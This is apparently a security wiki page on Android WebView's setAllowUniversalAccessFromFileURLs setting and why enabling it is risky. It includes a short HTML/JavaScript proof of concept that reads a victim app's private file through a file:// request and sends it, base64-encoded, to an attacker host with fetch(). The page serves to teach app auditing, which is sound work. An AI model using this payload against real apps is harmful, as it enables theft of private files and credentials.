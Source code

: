# WebSettings overview

[WebSettings](https://developer.android.com/reference/android/webkit/WebSettings) manages settings state for a WebView. When a WebView is first created, it obtains a set of default settings. A WebSettings object obtained from [WebView#getSettings()](https://developer.android.com/reference/android/webkit/WebView#getSettings%28%29) is tied to the life of the WebView. 

# Security issues

## setAllowUniversalAccessFromFileURLs

[setAllowUniversalAccessFromFileURLs](https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs%28boolean%29) sets whether cross-origin requests in the context of a file scheme URL should be allowed to access content from **any origin**. This includes access to content from other file scheme URLs or web contexts. The default value is `false` since Android 4.1.

{% hint style="info" %}
This method was deprecated in API level 30
{% endhint %}

Enabling this setting allows malicious scripts loaded in a `file://` context to launch cross-site scripting attacks, either accessing arbitrary local files including WebView cookies, app private data or even credentials used on arbitrary web sites.

For example, if an applciation allows you to open arbitrary links in a WebView you can pass a path to shared html file with the following content to steal a private file:

```html
<!-- file:///sdcard/index.html -->
<script>
    var url = 'file:///data/data/com.victim.app/internal_folder/private_file.txt';
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            fetch('https://attacker-website.com/?content=' + btoa(xhr.responseText));
        }
    }
    xhr.open('GET', url, true);
    xhr.send('');
</script>
```

